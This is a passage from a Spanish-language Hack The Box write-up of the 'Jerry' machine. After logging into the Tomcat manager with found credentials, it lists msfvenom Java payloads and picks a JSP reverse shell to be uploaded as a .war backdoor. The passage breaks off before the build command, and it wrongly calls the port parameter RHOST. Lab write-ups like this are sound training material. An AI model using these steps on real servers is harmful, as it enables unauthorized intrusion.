 Un usuario y contraseña...vamos a usarlos y listo ya accedimos xd:

![](/assets/images/htb-writeup-jerry/Captura3.png)

Analizando un poco la pagina, ya como administrador vemos que podemos subir archivos tipo **.war** por lo que podemos usar esto para buscar un exploit que podamos usar pues lo que podemos subir es una reverse shell y con eso obtenemos una shell conectada, osease que lo que estamos haciendo es una **BackDoor**.

## Buscando y Configurando un Payload
Si bien antes usamos **searchsploit** para buscar exploits en la base de datos de Metasploit para usarlos, esta vez vamos a usar la herramienta *msfvenom* que por asi decirlo es similar, la diferencia radica en que aqui le podemos indicar los mismos parametros que en Metasploit además de que usa **Payloads** en lugar de **Exploits**.

Ahora para buscar los payloads debemos usar el siguiente comando, especificando que buscamos los tipo **Java**:
```
msfvenom -l payloads | grep java
    java/jsp_shell_bind_tcp                                            Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp                                         Connect back to attacker and spawn a command shell
    java/meterpreter/bind_tcp                                          Run a meterpreter server in Java. Listen for a connection
    java/meterpreter/reverse_http                                      Run a meterpreter server in Java. Tunnel communication over HTTP
    java/meterpreter/reverse_https                                     Run a meterpreter server in Java. Tunnel communication over HTTPS
    java/meterpreter/reverse_tcp                                       Run a meterpreter server in Java. Connect back stager
    java/shell/bind_tcp                                                Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Listen for a connection
    java/shell/reverse_tcp                                             Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Connect back stager
    java/shell_reverse_tcp                                             Connect back to attacker and spawn a command shel
```
Vamos a ocupar este payload: **java/jsp_shell_reverse_tcp** que como su descripcion nos dice, se va a conectar de la maquina victima hacia nosotros spawneando una shell. Para usar el exploit solamente debemos indicarle 3 cosillas:
* Nuestra IP con LHOST
* Un puerto con RHOST
* Que se guarde en archivo tipo war con -f war
Y ya solamente lo podemos guardar con un nombre en especifico, yo lo llame shell.war: